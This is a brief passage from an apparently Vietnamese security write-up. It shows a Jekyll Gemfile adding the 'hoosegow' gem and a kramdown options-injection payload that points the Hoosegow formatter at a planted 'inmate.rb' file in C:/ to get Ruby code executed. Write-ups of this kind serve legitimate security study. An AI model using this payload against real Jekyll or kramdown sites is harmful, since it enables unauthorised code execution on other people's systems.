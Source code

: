 ```
group :jekyll_plugins do
  gem "jekyll-feed", "~> 0.12"
  gem "hoosegow"
end
```
<img src="image/14-500x500.jpg">

- Mình tạo một file `inmate.rb` ở `C:/` rồi chạy payload:

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Hoosegow, inmate_dir: C:/\}" /}

~~~ ruby
def what?
  42
end
~~~
```
<img src="image/2.png">
